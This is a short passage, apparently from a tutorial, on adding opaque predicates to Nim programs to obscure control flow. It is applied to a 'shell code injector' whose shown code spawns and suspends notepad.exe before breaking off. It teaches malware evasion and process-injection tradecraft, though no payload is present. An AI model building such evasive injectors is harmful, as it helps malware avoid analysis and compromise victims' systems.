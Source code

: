 This simplistic example illustrates how you might start to think about integrating opaque predicates into your Nim programs for educational purposes. Keep in mind that the real challenge lies in crafting conditions that are non-trivial to resolve, thereby effectively obfuscating the control flow.



So for example, we can modify our shell code injector as follows


```Nim
import winim/lean

import osproc

  
  
  
  
  

# Constant-based opaque predicate

proc isPrimeOpaque(n: int): bool =

# A complex condition that always returns true for a specific `n`

# chosen by the programmer, but seems variable

return n == 1013

  
  

#[ Environmental opaque predicate

proc checkSystemClockSpeed(): bool =

Assume the malware is targeted at systems with a certain clock speed

This condition checks something that's seemingly variable but isn't

return systemClockSpeed() > 1 and systemClockSpeed() < 5

]#

  
  

proc njkt[I, T](buf: array[I, T]): void =

  

  

echo "[+] Injecting shellcode..."

# TODO:

# Start and suspend a process

let injectedProcess = startProcess("notepad.exe")

injectedProcess.suspend()

  

```